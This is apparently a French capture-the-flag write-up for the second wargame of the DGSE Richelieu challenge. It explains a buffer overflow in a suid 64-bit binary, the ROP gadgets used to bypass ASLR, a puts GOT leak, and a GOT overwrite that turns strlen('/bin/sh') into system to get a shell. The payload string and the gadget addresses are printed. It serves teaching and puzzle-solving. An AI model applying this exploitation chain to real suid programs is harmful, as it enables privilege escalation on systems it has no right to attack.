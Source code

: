 # Challenge Richelieu DGSE - Wargame #2

Le second binaire est le plus difficile à casser. Vous pouvez le récupérer [ici](./binaries/defi2.bin), si le cœur vous en dit. Il s'agit d'un programme en [suid](https://fr.wikipedia.org/wiki/Setuid#Setuid_et_Setgid_pour_les_ex%C3%A9cutables) comme le précédent.

Lançons le :
```
defi2@AttrapeLeDrapeau:~$ ./prog.bin
************************************************
** Vérification du couple login/mot de passe. **
************************************************
login $ monLogin
pass $ monPass
[-] mot de passe trop petit (moins de 8 caractères)
[-] il n'y a pas de nombre
[-] il n'y a pas de caractère spécial
Pas bon. Il vaudrait mieux utiliser un autre couple login/mot de passe
```
En déboguant le programme, on se rend compte que :
- Le login est lu par un `fgets(buff, 0x3e8, stdin)`. On a donc beaucoup de place pour mettre ce que l'on veut, *fgets* va s’arrêter de lire au moment où il va rencontrer un saut de ligne ou qu'il aura lu au maximum 0x3e8 (1000 en décimal) octets.
- Le mot de passe est lu par un `scanf("%s")`. C'est beaucoup plus contraignant : *scanf* va s’arrêter au moment où il lira un "\n" mais aussi un espace " ", un octet null "\x00", entre autres.
- Il y a un [buffer overflow](https://fr.wikipedia.org/wiki/D%C3%A9passement_de_tampon) lors du scanf (et du fgets aussi) : celui-ci ne vérifie pas la taille lue et ne tronque pas, tant qu'il considère que ce qu'il lit est une chaîne. L'overflow a lieu après le 56ème octet lu.
- L'[ASLR](https://fr.wikipedia.org/wiki/Address_space_layout_randomization) est activé et le programme est en 64bits. On va avoir du mal à dévier le flot d’exécution vers un éventuel shell code.

Un moyen de contourner l'*ASLR en 64 bits* est de réaliser une [Ropchain](https://en.wikipedia.org/wiki/Return-oriented_programming), les adresses du programme en lui même étant fixes, contrairement à celles de la libc, de la stack et de la heap.

La grande complexité de ce challenge tient à la difficulté à trouver des *gadgets intéressants*, notamment en ce qui concerne le contrôle du registre *rdi*. Il y a effectivement un `pop rdi; ret;` à l’adresse 0x400a13 mais il contient un saut de ligne dans son adresse : "0x0a". Il est donc inexploitable. J'en ai trouvé un autre, beaucoup moins évident :
```
0x4005e1:	pop    rdi                      # la partie intéressante
0x4005e2:	and    BYTE PTR [rax+0x0],ah    # il faut que rax contienne un pointeur
                                             # vers une zone mémoire accessible en écriture
                                             # pour ne pas faire planter le programme à cet endroit
0x4005e5:	push   rbp
0x4005e6:	sub    rax,0x602058
0x4005ec:	cmp    rax,0xe
0x4005f0:	mov    rbp,rsp
0x4005f3:	jbe    0x400610                 # si rax est inférieur ou égal à 0xe, on va à l'adresse 0x400610
0x4005f5:	mov    eax,0x0
0x4005fa:	test   rax,rax
0x4005fd:	je     0x400610                 # sinon on va aussi à l'addresse 0x400610
```

À l’adresse 0x400610 on trouve :
```
0x400610:	pop    rbp
0x400611:	ret
```

On peut estimer que ce gadget fait (si rax pointe vers une zone inscriptible):
```
pop rdi;
push rbp;
mov rbp,rsp;
pop rbp;
ret;
```

Le pop rbp et push rbp s'annulent...
On a donc :
```
pop rdi;
mov rbp,rsp;
ret;
```
Formidable ! Pour les autres gadgets, j'ai utilisé :
- 0x40086b : `pop rbp; ret`
- 0x400863 : `mov    eax,DWORD PTR [rbp-0x14]; add rsp, 0x38; pop rbx; pop rbp; ret;`

J'ai codé [un script python](./scripts/defi2-exploit.py) qui exploite la faille.
- Il va d'abord leaker l’adresse de *puts* contenue dans la [GOT](https://en.wikipedia.org/wiki/Global_Offset_Table) : `puts(0x602018)`
- Ensuite il va retourner dans le programme  au moment du *fgets* en modifiant son premier argument : `fgets(0x602000, 0x3e8, stdin)`. Le script enverra alors `"/bin/sh"+"\x00"*24+p64(system)+"\n"`.  Cela va réécrire une partie de la GOT jusqu'à l'adresse de *strlen*.
- Le programme va continuer à s’exécuter et appeler `strlen()` sur la chaîne que l'on vient de passer à fgets(), elle est située à l'adresse 0x602000. Or cette adresse contient "/bin/sh" et l'adresse de `strlen()` dans la GOT a été écrasée par celle de `system()`. On obtient donc un shell.

Cette partie aurait aussi bien pu être réalisée en effectuant un [ret2csu](https://www.rootnetsec.com/ropemporium-ret2csu/) ou peut-être même encore un [ret2resolve](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62) pour contourner l'absence apparente de gadget `pop rdi`. Un simple ret2reg aurait pu aussir faire l'affaire, [comme l'a fait Alkeryn](https://github.com/Alkeryn/ctf_richelieu_dgse/blob/master/defi2/exploit.py)

Suite et fin dans la dernière partie : [Wargame #3](./Wargame3.md)
